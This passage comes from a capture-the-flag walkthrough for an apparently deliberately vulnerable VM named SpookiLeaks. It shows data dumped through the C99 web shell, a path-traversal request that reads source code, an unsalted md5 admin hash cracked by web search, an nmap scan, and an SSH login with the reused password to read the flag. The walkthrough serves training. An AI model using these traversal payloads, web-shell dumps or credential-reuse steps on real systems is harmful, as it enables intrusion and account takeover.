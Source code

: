 Using C99, we can dump this data easily and see the following:

    id  username    password                            role    created                 modified
    1   ghost       37988bb25d36058671f959f06a7d51b9    admin   2014-04-03 20:53:19     2014-04-03 20:53:19

That's the same user name that we found in `/etc/passwd` and that password hash
looks like a basic md5. We can verify that by checking out he source of that
custom password hasher at `/media?file=....//....//Controller/Component/Auth/CustomPasswordHasher.php`:

```php
public function hash($password) {

    // Hash the password
    return md5($password); // md5 4 life

}
```

Yup, unsalted md5. If the password was salted we might start thinking about
brute forcing it. However, unsalted passwords are often easily searchable due
to them being pre-computed en masse and published online. For our case, a simple
[Google search](https://encrypted.google.com/search?q=37988bb25d36058671f959f06a7d51b9)
reveals the password as `ScoobySnacks`.

## The Final Pieces

We now need to be able to log in to the the system. Without physical access to
the box we can perform an [nmap](http://nmap.org/) scan to see what services are
up and running:

    $ nmap -sT 192.168.0.170

    Starting Nmap 6.40 ( http://nmap.org ) at 2014-04-16 10:48 MST
    Nmap scan report for 192.168.0.170
    Host is up (0.0034s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds

Here we see that SSH is running on the target machine. The last question
remaining now is wether or not the `ghost` user was smart enough to use
different passwords for his system account and his web application accounts.
All we have to do to test this is SSH into the server with his credentials:

    $ ssh ghost@192.168.0.170  # Substitute your VMs IP
    ghost@192.168.0.170's password:

Enter the ghost user's password and BOOM! We're in! All we have to do is grab
the content of flag:

    $ sudo cat /var/www/SpookiLeaks/Docs/flag.txt
    [sudo] password for ghost:

And you've got the flag:

        CONGLATURATION !!!

        YOU HAVE COMPLETED
        A GREAT GAME.

    AND PROOVED THE JUSTICE
        OF OUR CULTURE.

        NOW GO AND REST OUR
            HEROES !
